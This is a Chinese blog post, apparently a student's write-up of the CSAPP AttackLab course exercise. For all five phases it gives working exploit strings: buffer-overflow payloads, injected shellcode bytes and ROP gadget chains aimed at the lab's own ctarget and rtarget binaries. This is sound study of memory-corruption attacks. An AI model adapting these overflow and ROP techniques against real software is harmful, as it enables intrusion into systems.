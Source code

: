 ```yaml
---
title: 深入理解计算机系统 AttackLab
top: false
cover: false
img: 'http://bucket.jiabi.tech/medias/featureimages/csapp_b.jpg'
toc: true
mathjax: true
date: 2020-05-09 16:24:53
password:
summary: CSAPP AttackLab实验报告
tags:
    - CSAPP
    - LAB
categories:
    - 计算机基础
---
```


# CSAPP BombLab实验报告

## 前言

- 这个实验环境准备就搞了好久/(ㄒoㄒ)/~~  
- 一开始发现原来的WSL跑不了ctarget，报  
    > Couldn't map stack to segment at 0x55586000
- 搬到虚拟机下的CentOS，GDB跑不起来，报缺少glibc，尝试多次没法解决
- 最后换到服务器上的Ubuntu终于没问题了
- AttackLab是BufferLab的64位版本，包括了BufferLab的代码注入攻击(CI)增加了新的面向返回编程攻击(ROP)
- BufferLab需要IA32的知识，以后看了 [WebAside ASM:IA32](http://csapp.cs.cmu.edu/3e/waside/waside-ia32.pdf) 再做
- 实验之前先通过objdump把ctarget、rtarget的反汇编以及符号表导出来

## Phase 1

- 通过缓冲区溢出把返回地址就改为touch1的入口地址就可以了
- 通过反汇编可知getbuf分配的 BUFFER_SIZE 是0x28也就是40个字节

```
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
c0 17 40 00 00 00 00 00 /* 0x5561dca0: 更改返回地址touch1的入口地址 */
```

## Phase 2

- 通过缓冲区溢出把返回地址就改为栈上的地址
- 把需要注入的代码通过gcc -c 编译成.o文件
- 再通过objdump -d 反汇编即可得到对应的机器表示
- 博主出现过一个很令人崩溃的Bug，立即数的$忘记写了，变成了绝对寻址

```x86asm
0000000000000000 <.text>:
   0:	bf fa 97 b9 59       	mov    $0x59b997fa,%edi
   5:	48 83 c4 10          	add    $0x10,%rsp
   9:	c3                   	retq 
```

```
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
a8 dc 61 55 00 00 00 00 /* 0x5561dca0: 更改返回地址0x5561dca8 */
bf fa 97 b9 59 48 83 c4 /* 0x5561dca8: 注入汇编指令的机器表示 */
10 c3 00 00 00 00 00 00 /* 0x5561dcb0: 注入汇编指令的机器表示 */
ec 17 40 00 00 00 00 00 /* 0x5561dcb8: touch2的入口地址 */
```

## Phase 3

- 通过缓冲区溢出把返回地址就改为栈上的地址
- 把需要注入的代码通过gcc -c 编译成.o文件
- 再通过objdump -d 反汇编即可得到对应的机器表示
- cookie是作为字符串传入的，注意存放的位置，writeup有相应提示
> When functions hexmatch and strncmp are called, they push data onto the stack, overwriting portions of memory that held the buffer used by getbuf. As a result, you will need to be careful where you place the string representation of your cookie.
- 博主出现过一个更令人崩溃的Bug，注释内容和注释符号之间漏了一个空格  
    导致hex2raw的parser识别出错，这里在vim下可以用%!xxd看看生成的数据对不对

```x86asm
0000000000000000 <.text>:
   0:	bf c0 dc 61 55       	mov    $0x5561dcc0,%edi
   5:	48 83 c4 10          	add    $0x20,%rsp
   9:	c3                   	retq   
```

```
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
a8 dc 61 55 00 00 00 00 /* 0x5561dca0: 更改返回地址0x5561dca8 */
bf c0 dc 61 55 48 83 c4 /* 0x5561dca8: 注入汇编指令的机器表示 */
10 c3 00 00 00 00 00 00 /* 0x5561dcb0: 注入汇编指令的机器表示 */
fa 18 40 00 00 00 00 00 /* 0x5561dcb8: touch3的入口地址 */
35 39 62 39 39 37 66 61 /* 0x5561dcc0: sval字符串:cookie 0x59b997fa的字符串表示 */
00 00 00 00 00 00 00 00 /* 0x5561dcc8: sval字符串的结尾00，以及对齐的0 */
```

## Phase 4

- Phase4之后便是ROP攻击，因为栈地址随机化以及栈地址上的数据被设置为不可执行，便产生了这样一种攻击的手法
>  executing existing code, rather than injecting new code.
- 这里就是要找所谓的gadget，将返回地址设置为选定的gadget，代码便会从那开始执行

```
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
ab 19 40 00 00 00 00 00 /* addval_219+4:0x4019ab 58 90 c3 */
                        /* popq %rax    nop     ret       */ 
fa 97 b9 59 00 00 00 00 /* data:cookie */
c6 19 40 00 00 00 00 00 /* setval_426+3:0x4019c6 89 c7 90 c3 */
                        /* mov %eax,%edi    nop         ret  */
ec 17 40 00 00 00 00 00 /* touch2的入口地址 */
```

## Phase 5

- Phase5实际上是最难的，虽然他只有5分
> You have also gotten 95/100 points for the lab.
That’s a good score. If you have other pressing obligations consider stopping right now.
- 问题的核心在于，栈地址是变动的，只能在运行时读取到真正的栈地址
- 而又没有可利用的add 或者 leaq 之类的指令
- 解决问题的要点在于farm.c中的函数add_xy
- 至于设置add_xy的参数需要的gadget，博主只发现一条执行的路径

```
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
06 1a 40 00 00 00 00 00 /* 更改返回地址 mov %rsp,%rax */
c5 19 40 00 00 00 00 00 /* 0x00: mov %rax,%rdi */
ab 19 40 00 00 00 00 00 /* 0x08: pop %rax */
48 00 00 00 00 00 00 00 /* 0x10: data:offset */
dd 19 40 00 00 00 00 00 /* 0x18: mov %eax,%edx */
34 1a 40 00 00 00 00 00 /* 0x20: mov %edx,%ecx */
13 1a 40 00 00 00 00 00 /* 0x28: mov %ecx,%esi */
d6 19 40 00 00 00 00 00 /* 0x30: add_xy的入口地址 */
c5 19 40 00 00 00 00 00 /* 0x38: mov %rax,%rdi */
fa 18 40 00 00 00 00 00 /* 0x40: touch3的入口地址 */
35 39 62 39 39 37 66 61 /* 0x48: sval字符串:cookie 0x59b997fa的字符串表示 */
00 00 00 00 00 00 00 00 /* 0x50: sval字符串的结尾00，以及对齐的0 */
```

## 尾声

- 记录了下流水账，以后再说吧